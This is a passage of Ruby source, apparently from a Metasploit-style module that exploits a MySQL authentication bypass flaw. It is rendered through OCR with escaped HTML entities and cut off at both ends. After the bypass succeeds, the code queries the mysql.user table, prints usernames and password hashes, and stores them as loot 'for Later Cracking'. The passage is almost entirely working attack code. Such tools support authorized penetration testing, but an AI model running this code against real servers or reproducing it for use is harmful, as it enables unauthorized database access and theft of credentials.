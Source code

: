 ```ruby
end

# Remove any dead threads from the set
cur_threads.delete(nil)

::IO.select(nil, nil, nil, 0.25)
end

# Clean up any remaining threads
cur_threads.each {|x| x.kill }

if results.length &gt; 0
print_good(&quot;#{rhost}:#{rport} Successful exploited the authentication bypass flaw, dumping hashes...&quot;)
@mysql_handle = results.first
return dump_hashes
end

print_error(&quot;#{rhost}:#{rport} Unable to bypass authentication, this target may not be vulnerable&quot;)
end

def dump_hashes

# Grabs the username and password hashes and stores them as loot
res = mysql_query(&quot;SELECT user,password from mysql.user&quot;)
if res.nil?
print_error(&quot;#{rhost}:#{rport} There was an error reading the MySQL User Table&quot;)
return

end

# Create a table to store data
tbl = Rex::Ui::Text::Table.new(
'Header' =&gt; 'MysQL Server Hashes',
'Indent' =&gt; 1,
'Columns' =&gt; ['Username', 'Hash']
)

if res.size &gt; 0
res.each do |row|
next unless (row[0].to_s + row[1].to_s).length &gt; 0
tbl &lt;&lt; [row[0], row[1]]
print_good(&quot;#{rhost}:#{rport} Saving HashString as Loot: #{row[0]}:#{row[1]}&quot;)
end
end

this_service = nil
if framework.db and framework.db.active
this_service = report_service(
:host =&gt; rhost,
:port =&gt; rport,
:name =&gt; 'mysql',
:proto =&gt; 'tcp'
)
end

report_hashes(tbl.to_csv, this_service) unless tbl.rows.empty?

end

# Stores the Hash Table as Loot for Later Cracking
def report_hashes(hash_loot,service)
```